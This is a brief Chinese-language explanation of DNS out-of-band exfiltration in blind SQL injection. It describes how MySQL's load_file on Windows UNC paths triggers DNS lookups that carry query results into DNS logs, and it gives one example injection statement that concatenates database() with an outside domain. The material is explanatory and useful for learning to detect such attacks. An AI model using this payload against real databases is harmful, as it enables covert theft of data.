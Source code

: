 #### 原理

遇到sql注入无法取得回显时，盲注非常耗时，因此使用DNS外带来获取回显。

由于windows使用UNC路径，当遇到域名时会发起域名解析请求，使用sql语句中的load_file函数可以发起DNS请求，

当我们使用这样的语句注入时：`select load_file(concat(database(),database(),'www.baidu.com'))`

数据库先将查询的语句通过concat函数拼接，然后再用load_file函数解析，从而发起DNS请求，请求解析的域名中包含了我们需要的信息，而被解析的域名又包含在DNS日志中
